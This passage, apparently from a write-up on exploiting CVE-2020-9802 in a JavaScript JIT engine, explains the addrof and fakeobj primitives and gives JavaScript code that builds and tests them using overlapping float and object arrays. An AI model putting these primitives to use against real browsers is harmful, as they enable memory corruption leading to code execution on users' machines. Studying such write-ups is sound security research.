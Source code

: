 ### Exploitation primitives: addrof & fakeobj

JIT engines exploits rely on building two fundamental
primitives: `addrof` and `fakeobj`.  _“Address of [object]”_ returns the address
of a JavaScript object, easily defeating [ASLR](). _“[Create a] fake object”_
treats a memory address as a JavaScript object.

The two primitives are built by having a float array and an object array
overlapping on a memory location.

The fundamental insight is the following: A float array stores unboxed raw
floating point values. An object array stores pointers to objects as boxed
floating point values. Both of them therefore store floating point values but
differ in their usage of them based on their indexing type `ArrayWithDouble`
`ArrayWithContiguos`.

![](/assets/img/posts/cve-2020-9802/cve-2020-9802-addrof_fakeobj.png)

Given the bug has been triggered, the two primitives are defined as follows:

``` javascript
103 const OVERLAP_OFFSET = 8;
104 
105 function raw_addrof(o) {
106   obj_arr[0] = o;
107   return float_arr[OVERLAP_OFFSET];
108 }
109 
110 function raw_fakeobj(addr) {
111   float_arr[OVERLAP_OFFSET] = addr;
112   return obj_arr[0];
113 }
```

Another sanity check used to assess the correctness of the exploit is the
following one:

```javascript
let t = {b: 42}
let a = addrof(t)

debug("[+] addrof test: \t" + hex(a));

if (fakeobj(addrof(t)) !== t) {
    throw "fakeobj not working"
} else {
    debug("[+] fakeobj test:\tpassed")
}
```
